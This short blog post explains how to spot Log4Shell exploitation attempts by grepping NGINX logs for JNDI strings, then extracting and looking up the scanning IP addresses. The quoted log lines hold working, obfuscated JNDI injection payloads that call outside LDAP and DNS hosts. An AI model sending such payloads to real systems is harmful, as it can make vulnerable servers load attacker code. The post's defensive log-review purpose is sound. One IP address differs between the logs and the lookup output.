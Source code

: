 During this year's Advent the [Log4Shell](https://en.wikipedia.org/wiki/Log4Shell) vulnerability was discovered. It's a vulnerability with high impact. This is because of three factors. It allows an attacker to run arbitrary code (downloaded from LDAP servers) on the victim's system. Log4j is a logging library used by lots of programs. It's easy to exploit. The way to fix this vulnerability is upgrade the log4j library to the latest version.

To find out if someone is trying to exploit this vulnerability in your system is to review your logs. For example:

```sh
$ sudo journalctl --since 2021-12-09 | grep -iE '\$\{jndi:'
Dec 12 05:34:35 cloud waf[638]: 165.22.201.45 - - [12/Dec/2021:05:34:35 +0000] "GET / HTTP/1.1" 444 0 "-" "${jndi:${lower:l}${lower:d}a${lower:p}://world80.log4j.bin${upper:a}ryedge.io:80/callback}"
Dec 13 00:51:28 cloud waf[638]: 157.245.108.40 - - [13/Dec/2021:00:51:28 +0000] "GET / HTTP/1.1" 444 0 "-" "${jndi:${lower:l}${lower:d}a${lower:p}://world443.log4j.bin${upper:a}ryedge.io:80/callback}"
Dec 13 05:01:39 cloud waf[638]: 45.83.64.19 - - [13/Dec/2021:05:01:39 +0000] "GET /$%7Bjndi:dns://45.83.64.1/securityscan-http80%7D HTTP/1.1" 444 0 "${jndi:dns://45.83.64.1/securityscan-http80}" "${jndi:dns://45.83.64.1/securityscan-http80}"
```

These are logs from NGINX web server. There is no Java running on this system but the Internet is being scanned en masse. The web server is returning 444 because it's configured like this:

```
# Just close connection if the server is accessed via IP address or via the
# wrong hostname. _ is just an invalid value which will never trigger on a real
# hostname.
server {
    listen 443 default_server;
    server_name _;
    return 444;
}
```

If you are curious who is making these requests you can pull out the IP addresses from the logs, for example:

```sh
$ sudo journalctl --since 2021-12-09 | grep -iE '\$\{jndi:' | \
perl -lne '/((?:\d{1,3}\.){3}\d{1,3})/ && print $1' | sort | uniq
157.245.108.40
165.22.201.45
45.83.64.19
```

To discover information about the IP addresses you might find [checkip](https://github.com/jreisinger/checkip) useful:

```sh
$ for ip in $(sudo journalctl --since 2021-12-09 | grep -iE '\$\{jndi:' | \
perl -lne '/((?:\d{1,3}\.){3}\d{1,3})/ && print $1' | sort | uniq)
do
echo "---[$ip]---"; checkip $ip 2> /dev/null
done
---[157.245.108.40]---
abuseipdb.com   domain: digitalocean.com, usage type: Data Center/Web Hosting/Transit
iptoasn.com     AS description: DIGITALOCEAN-ASN - DigitalOcean, LLC
maxmind.com     city: Bengaluru, country: India (IN)
ping            0% packet loss, sent 5, recv 5, avg round-trip 141 ms
shodan.io       OS: n/a, 1 open port: tcp/4646
urlscan.io      0 related URLs
virustotal.com  network: 157.245.0.0/16, SAN: knrao.in, cpanel.knrao.in, cpcalendars.knrao.in, cpcontacts.knrao.in, mail.knrao.in, webdisk.knrao.in, webmail.knrao.in, www.knrao.in
Malicious       38% 🤏
---[165.22.201.45]---
abuseipdb.com   domain: digitalocean.com, usage type: Data Center/Web Hosting/Transit
iptoasn.com     AS description: DIGITALOCEAN-ASN - DigitalOcean, LLC
maxmind.com     city: Amsterdam, country: Netherlands (NL)
ping            0% packet loss, sent 5, recv 5, avg round-trip 16 ms
shodan.io       OS: Ubuntu, 4 open ports: tcp/22 (OpenSSH, 8.2p1 Ubuntu-4ubuntu0.2), tcp/80 (Apache httpd, 2.4.51), tcp/443 (Apache httpd, 2.4.7), tcp/465 (Exim smtpd, 4.94.2)
urlscan.io      0 related URLs
virustotal.com  network: 165.22.0.0/16, SAN: *.adleon2jnbvsh.com, adleon2jnbvsh.com
Malicious       38% 🤏
---[45.83.64.49]---
abuseipdb.com   domain: n/a, usage type: n/a
iptoasn.com     AS description: ALPHASTRIKE-RESEARCH
maxmind.com     city: n/a, country: Germany (DE)
ping            0% packet loss, sent 5, recv 5, avg round-trip 16 ms
shodan.io       OS: n/a, 1 open port: tcp/179
urlscan.io      0 related URLs
virustotal.com  network: 45.83.64.0/22, SAN: n/a
Malicious       50% 🚫
```